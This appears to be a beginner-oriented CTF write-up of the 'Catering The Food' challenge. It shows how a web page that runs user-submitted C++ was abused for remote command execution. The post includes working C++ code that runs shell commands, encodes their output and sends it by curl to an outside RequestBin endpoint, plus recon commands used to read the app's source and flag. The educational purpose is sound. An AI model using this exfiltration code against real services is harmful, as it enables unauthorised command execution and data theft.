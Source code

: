 ```yaml
---
title: "Catering The Food"
date: 2025-04-10 12:29:58 +0200
categories: writeups ctf
tags: ctf rce requestbin
description: Writeup of the Catering The Food challenge from the Breach CTF.
image: ../assets/images/posts/logos/breach-ctf.png
---
```

## Introduction

#### **Author**: Álvaro Bernal (aka. **trr0r**)

This writeup walks through the challenge **Catering The Food** from the [Breach CTF](https://ctf.breachers.in/). It is intended for **beginners** and includes detailed descriptions of each step, along with commentary for every screenshot. I believe the proposed solution is not the intended path for the challenge, but exploring alternative exploitation techniques is **valuable**, as it broadens our understanding and reveals a range of **potential attack vectors**.

---
## Challenge Description

Embark on an extraordinary journey to etch your name in history as the most legendary caterer the world has ever known.

```
input: 99999 99999 99999 
output: 173977761
```

> author: DustOfSnow

[https://ppc-ctf.challs.breachers.in](https://ppc-ctf.challs.breachers.in/)

___
### Request Bin

First, we need to go to [Requestbin](https://requestbin.whapi.cloud/) and create a **public URL** where we will be receiving the **output** of the commands we execute.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406202922.png>)

By clicking on `Create a RequestBin`, a public URL endpoint is generated. We’ll copy this URL to the clipboard, since it will be required in subsequent steps.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203025.png>)
### Receiving `curl` command

The code snippet demonstrates using the `system()` function in C++ to run a `curl` command:

```cpp
#include <iostream>
#include <iostream>
#include <cstdlib>  // To use system()

// Author: Álvaro Bernal (aka. trr0r)

int main() {
    // Declare curl command
    const char* command = "curl http://<your-request-bin-url>/testingifcurlworks";
    
    // Make a system call to execute curl command
    int result = system(command);
    return 0;
}
```

The previously written code will be pasted into the website, which provides an environment for executing C++ code directly.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203526.png>)

Shortly after, a GET request will be triggered and received at the previously created RequestBin endpoint (public URL).

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203348.png>)
### Script to receive commands' output

This stage of the challenge becomes more **complex**. Previously, it was enough to confirm that the target system was susceptible to **remote command execution**. Now, however, we need to ensure we can execute **arbitrary commands reliably**. To facilitate this and minimize potential errors, we’ll implement two helper functions that will **streamline** the command injection process and improve flexibility:

- `base64_encode`: Encodes command output to Base64.
- `url_escape`: Escapes characters to make the data safe for URLs.

In summary, the code that we will need to input into the webpage to **execute arbitrary commands seamlessly**, without any complications, is as follows:

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <string>

// Author: Álvaro Bernal (aka. trr0r)

// Function to manually encode a string in Base64
std::string base64_encode(const std::string& input) {
    const std::string base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    std::string encoded;
    int val = 0, valb = -6;
    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }
    if (valb > -6) encoded.push_back(base64_chars[((val << 8) >> (valb + 8)) & 0x3F]);
    while (encoded.size() % 4) encoded.push_back('=');
    return encoded;
}

// Function to escape special characters for URL encoding
std::string url_escape(const std::string& str) {
    std::string escaped;
    for (char c : str) {
        if (c == ' ') escaped += "+";  // Replace space with "+"
        else if (c == '&') escaped += "%26";  // Escape "&"
        else if (c == '?') escaped += "%3F";  // Escape "?"
        else if (c == '=') escaped += "%3D";  // Escape "="
        else if (c == '%') escaped += "%25";  // Escape "%"
        else if (c == '/') escaped += "%2F";  // Escape "/"
        else if (c == '#') escaped += "%23";  // Escape "#"
        else escaped += c;  // Add characters as-is if they are not special
    }
    return escaped;
}

int main() {
    FILE* fp = popen("whoami", "r");  // Execute "whoami" command - Modifiy as your needs
    if (fp == nullptr) return 1;  // Exit if command execution fails

    char buffer[512];
    std::string output;
    while (fgets(buffer, sizeof(buffer), fp)) {
        output += buffer;  // Add each line of the output to the string
    }
    fclose(fp);  // Close the file pointer

    if (!output.empty() && output[output.size() - 1] == '\n') output.pop_back();  // Remove newline character at the end

    std::string encoded_output = base64_encode(output);  // Encode the output in Base64
    std::string escaped_output = url_escape(encoded_output);  // Escape the Base64 encoded output for URL

    // Prepare the curl command with the Base64 encoded and URL escaped output
    std::string curl_command = "curl \"http://<your-request-bin-url>/?output=" + escaped_output + "\"";
    system(curl_command.c_str());  // Execute the curl command

    return 0;
}
```
### Getting comands' output

The procedure executed by the C++ script is outlined below.
1. Run `whoami`
2. Encode in Base64
3. Escape for URL
4. Send with `curl`.

Upon completion, we will see a **base64-encoded** string being received at our RequestBin endpoint.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210403.png>)

___
### Getting the flag

By decoding the **base64-encoded** content, we will uncover the **username** under which the remote commands are being executed.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210349.png>)

Next, we will modify the previously shared code slightly to execute the following command, which will enable us to **list all directories and files from the system's root**.

```bash
ls -la
```

By repeating the same process as before (decoding the base64-encoded string received at the RequestBin), we will obtain the **directory structure**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210445.png>)

Next, we will make another modification to the code, this time to display the contents within the **app directory**.

```bash
ls -la /app/
```

Upon inspection, we will observe a directory (**/static**) and a file (**WEB_API.py**), the latter of which will stand out since it is responsible for serving the website.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210558.png>)

If we try to access the content of the file, we will observe that **no request** is made to our RequestBin endpoint.

```bash
cat /app/WEB_API.py
```

This problem may occur because the file's content is **too large**, causing the URL to become **too long**, which prevents it from being sent due to the character limit. As an alternative, we will run the following command to display the **first 20 lines of the file**.

```bash
head -n 20 /app/WEB_API.py
```

At this point, we will notice that we receive a request (which is quite long). After decoding its content, we will discover that we have successfully accessed **the flag**, completing the challenge in a fully **valid alternative way**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210752.png>)

___
## Final Notes

This challenge tested basic concepts in **RCE**, exfiltration techniques via **HTTP requests**, and basic reconnaissance within a containerized environment. For **beginners**, it's a great introduction to chaining small steps into a successful exploit path.